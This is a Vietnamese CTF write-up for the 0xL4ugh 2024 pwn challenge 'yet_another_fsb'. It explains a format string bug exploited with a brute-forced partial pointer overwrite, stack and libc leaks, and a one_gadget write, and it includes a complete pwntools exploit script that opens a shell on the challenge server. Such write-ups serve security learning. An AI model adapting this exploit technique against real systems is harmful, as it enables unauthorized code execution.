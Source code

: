 ```yaml
--- 
title: 0xL4ugh CTF 2024
date: 2025-03-06 00:00:00 +0800
description: "0xL4ugh-2024"
tags: ['pwn']
author: ['kuvee']
draft: false
---
```


## yet_another_fsb





checksec : ![image](https://hackmd.io/_uploads/rJuQ_sCrJg.png)


- 1 bài fsb brutefoce , nhìn vào ta thấy được có 1 bug fsb , tuy nhiên nếu muốn loop vô hạn thì ta phải sửa được giá trị v5 != 0 , và đây có lẽ là điều khó khăn nhất ở bài này 
![image](https://hackmd.io/_uploads/BkGM_jRH1e.png)

- đây là stack của ta tại ```printf```

![image](https://hackmd.io/_uploads/ByZ0djASke.png)

- ở đây ban đầu mình nghĩ là cần sử dụng 1 con trỏ stack(A) đang trỏ đến địa chỉ stack khác(B) , lúc này ta cần ghi địa chỉ B thành địa chỉ chứa giá trị cần ghi ("C") , sau đó ghi C thành giá trị cần ghi

nó sẽ như thế này : 
```
A->B
C->value

A->C
cuối cùng là ghi C thành giá trị khác 0 
```

- tuy nhiên vì chỉ được ghi 1 lần nên cách này có vẻ khá rắc rối , ta cần dùng cách khác , nếu để ý kĩ thì 4bit cuối cùng của giá trị cần ghi luôn là 'e' và offset thứ 21 ta có thể control được , vậy ở đây ta sẽ overwrite 1 byte của offset21 sao cho 4bit cuối sẽ luôn là e -> ta sẽ bruteforce 4 bit (2^4 = 16) , tỉ lệ sẽ là 1/16

```
giá trị cần ghi : 0x7fffffffd8be
offset 21 : 0x00007fffffffd888
```
![image](https://hackmd.io/_uploads/SJROooAB1e.png)

- bruteforce xong rồi thì phần còn lại ta có thể leak_stack hoặc overwrite GOT (bài này là RELRO 1 phần) 

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./yet_another_fsb_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process()
HOST = "775be8f93719361fa898224c7cf5d114.chal.ctf.ae"
p = remote(HOST, 443, ssl=True, sni=HOST)
#gdb.attach(p,gdbscript='''
#            b*0x00000000004011ea
#            b*0x00000000004011ef
#           ''')
input()
sleep(1)
payload  = b'%254c%27$hhn'
payload += b'|%43$p|%41$p|'
payload += b'\xfe' * (0xa9 - len(payload))
p.send(payload)
sleep(0.5)
p.recvuntil(b'|')
stack = int(p.recvuntil(b'|')[:-1], 16)
stack_write = stack - 0x120
log.info(f"stack {hex(stack)}")

libc.address = int(p.recvuntil(b'|')[:-1], 16) - (0x7f7be8cf9c88 - 0x7f7be8cd4000)
log.info(f"libc: {hex(libc.address)}")

one_gadget = 0xff2ef + libc.address
pop_rdi = 0x00000000000fd8c4+ libc.address
system = libc.sym.system
bin_sh = next(libc.search(b'/bin/sh\x00'))
write = {
        stack_write:one_gadget,
        stack_write-10:0
        }
payload = fmtstr_payload(6,write,write_size='short')
p.sendline(payload)
p.interactive()
```

![image](https://hackmd.io/_uploads/rkUFD1kIyx.png)

